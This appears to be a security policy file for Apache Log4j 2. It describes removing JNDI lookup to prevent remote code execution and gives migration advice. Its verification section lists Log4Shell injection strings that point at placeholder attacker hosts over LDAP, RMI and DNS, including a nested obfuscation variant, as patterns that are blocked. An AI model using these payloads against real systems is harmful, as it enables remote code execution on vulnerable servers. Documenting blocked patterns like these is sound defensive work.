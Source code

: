 # Security Policy

## Supported Versions

Only the most recent release of Apache Log4j 2 is supported.

## JNDI Vulnerability Mitigation

### Security Hardening - JNDI Lookup Removal

As a critical security hardening measure, **JNDI lookup functionality has been completely removed** from the log4j-core module to prevent remote code execution vulnerabilities. This change eliminates the ability for attackers to trigger malicious JNDI lookups through log message patterns.

### Technical Implementation

The following security measures have been implemented:

- **Complete JNDI Removal**: The `org.apache.logging.log4j.core.lookup.JndiLookup` class has been entirely removed from log4j-core
- **Interpolator Protection**: The lookup interpolator has been modified to skip JNDI registration and reject JNDI patterns
- **Pattern Blocking**: String substitution now actively blocks and rejects `${jndi:...}` patterns 
- **Fail-Safe Controls**: System property `log4j2.disable.jndi=true` provides additional administrative control
- **Defense in Depth**: Multiple layers of protection prevent JNDI resolution even in misconfigured environments

### Impact on Existing Configurations

**Important Notice for Users**: If your Log4j configuration previously used JNDI lookups (patterns like `${jndi:ldap://...}`, `${jndi:rmi://...}`, or similar), these will no longer function and will return empty values or be blocked entirely.

### Migration Guidance

For users who previously relied on JNDI lookups:

1. **Environment Variables**: Replace JNDI lookups with environment variable lookups using `${env:VARIABLE_NAME}`
2. **System Properties**: Use system property lookups with `${sys:property.name}`
3. **Map Lookups**: Consider using map-based lookups for dynamic configuration values
4. **Static Configuration**: Replace dynamic JNDI values with static configuration where appropriate

### Security Verification

This implementation blocks the following attack patterns:
- `${jndi:ldap://malicious.server/payload}`
- `${jndi:rmi://attacker.com/object}`
- `${jndi:dns://evil.domain/query}`
- Nested variations like `${${lower:jndi}:ldap://...}`

All such patterns will be safely rejected without performing any network operations or remote class loading.

## Reporting a Vulnerability

If you have encountered an unlisted security vulnerability or other unexpected behaviour that has security impact, please report them privately to the [Log4j Security Team](mailto:private@logging.apache.org).

## Past Vulnerabilities

See [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html).
